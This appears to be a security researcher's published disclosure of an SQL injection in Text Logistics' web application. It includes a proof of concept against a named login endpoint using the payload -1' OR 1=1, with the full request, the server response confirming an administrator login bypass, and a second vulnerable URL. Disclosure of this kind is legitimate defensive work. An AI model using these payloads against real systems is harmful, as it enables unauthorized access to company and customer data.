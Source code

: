 ```yaml
---
layout: reports
permalink: /reports/GWA-2020-022/
tagline: "On 26 February 2020 GlitchWitch discovered an SQL Injection vulnerability at textlogisitics.com"
image:
  feature:
  hero:
report-id: GWA-2020-022
---
```


## Summary
Due to the lack of input santization it is possible to perform an SQL injection against various end-points on the web application. Using a common SQL injection technique it was possible to bypass authentication and login as an administrative user.


>[About Text Logistics:](http://textlogistics.com/) "Text Logistics provides easy to use tools to help you connect with your customers and promote retention while gaining valuable insight and information. We provide text marketing, appointment reminders, click-to-call service and instant group text alerts."

## Proof of Concept

For a proof of concept we will target the `/clients/signin.asp` end-point. It was noted that the following end-point was also vulnerable `/appstoreredirect.asp?id=1`.

To exploit this vulnerability we can simply input `-1' OR 1=1` into the username field and click submit.

The subsequent request will look like the following

```http
POST /clients/signin.asp HTTP/1.1
Host: www.textlogistics.com
Connection: close
Content-Length: 33
Content-Type: application/x-www-form-urlencoded
User-Agent: Hacker 7.23

email=-1%27+OR+1%3D1%16&password=
```
![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-signin.png)


we should receive the following response, indicating we have successfully logged in.

```
HTTP/1.1 302 Object moved
Cache-Control: private
Content-Type: text/html
Location: welcome.asp
Server: Microsoft-IIS/8.5
Set-Cookie: memberID=1517; path=/
Set-Cookie: [REDACTED]; path=/
Set-Cookie: [REDACTED]; secure; path=/
X-Powered-By: ASP.NET
X-Powered-By-Plesk: PleskWin
Date: Wed, 26 Feb 2020 03:30:33 GMT
Connection: close
Content-Length: 132

<head><title>Object moved</title></head>
<body><h1>Object Moved</h1>This object may be found <a HREF="welcome.asp">here</a>.</body>
```
![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-welcome.png)

It is important to note that while this proof of concept only demonstrates an authentication bypass, it would be possible for an attacker to download the entire application database, make modifications, and even perform remote command execution.

![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-account.png)


## Recommended Actions
 - Implement proper input santization to prevent SQLi and other injection attacks.
 - Inspect logs to determine if unauthorized access to the database has occurred.
 - Implement security and bug reporting information such as a [security.txt](https://securitytxt.org/) file so security researchers can more easily report findings in the future.
 - Perform a full penetration test of the web platform and API to identify further issues.

## Response From Affected Party
At the time of publishing no response has been received.
